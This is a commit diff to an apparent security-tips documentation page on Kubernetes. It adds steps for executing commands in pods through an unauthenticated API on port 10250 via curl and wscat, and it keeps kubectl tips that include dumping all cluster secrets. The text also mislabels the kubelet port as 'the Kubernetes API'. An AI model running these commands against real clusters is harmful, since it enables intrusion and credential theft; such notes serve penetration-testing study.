

Before and after one commit to vincd/security-tips, an MkDocs documentation site: the page built from docs/kubernetes.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries.

Commit message:
Update Kubernetes docs with API exploitation

````diff
--- a/docs/kubernetes.md
+++ b/docs/kubernetes.md
@@ -1,45 +1,66 @@
 Kubernetes
 ==========
 
+## API
+The Kubernetes API exposes the port `10250`. This API can be used to interact with the Kubernetes engine which basically give ou the right to do anything you desire unauthenticated.
 
-# Lancer un pod qui se supprime automatiquement à la fin
+To confirm that the host is running Docker you can make a GET requests to `/pods` :
+
+```
+https://<host>:<port>/pods
+
+{"kind":"PodList","apiVersion":"v1","metadata":{},"items":[{"metadata":{"name":"dind-sgz8n","generateName":"dind-","namespace":"default","selfLink":"/api/v1/namespaces/default/pods/dind-sgz8n",`...}],"qosClass":"BestEffort"}}]}
+```
+
+With the above information it's possible to send requests to the API to execute commands:
+```bash
+$ curl --insecure -v -H "W-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -H "Connection: upgrade" -H "Upgrade: SPDY/3.1" -X POST "https://<host>:<port>/exec/<namespace>/<pod_name>/<container_name>?command=<cmd>&input=1&output=1&tty=1"
+```
+
+In the response, there is a `Location` header to create a WebSocket connection:
+```bash
+$ wscat -c "https://<host>:<port>/<location_header>" --no-check
+```
+
+
+## Lancer un pod qui se supprime automatiquement à la fin
 ```bash
 $ kubectl run k8s-2-test -ti --rm --image=debian --generator=run-pod/v1
 ```
 
-# S'attacher à un pod existant
+## S'attacher à un pod existant
 ```bash
 $ kubectl exec -it k8s-2-test -- /bin/bash
 ```
 
-# Se connecter à une session existante
+## Se connecter à une session existante
 ```bash
 $ kubectl attach k8s-1-test -c k8s-1-test -i -t
 ```
 
-# Copier un fichier d'un pod à sa machine
+## Copier un fichier d'un pod à sa machine
 ```bash
 $ kubectl cp default/k8s-1-test:results.nmap ./result_nmaps_banner
 ```
 
-# Afficher les services (format simple à traiter)
+## Afficher les services (format simple à traiter)
 ```bash
 $ kubectl get services (-o wide)
 ```
 
-# Afficher les pods (json)
+## Afficher les pods (json)
 ```bash
 $ kubectl get pods -o json
 ```
 
-# Afficher les pods (format simple à traiter)
+## Afficher les pods (format simple à traiter)
 ```bash
 $ kubectl get pods -o wide
-# Get IP list
+## Get IP list
 $ kubectl get pods -o wide | sed -e 's/\s\+/ /g' | cut -f6 -d " "
 ```
 
-# Afficher l'ensemble des secrets
+## Afficher l'ensemble des secrets
 ```bash
 $ kubectl get secrets -o yaml
 ```
````
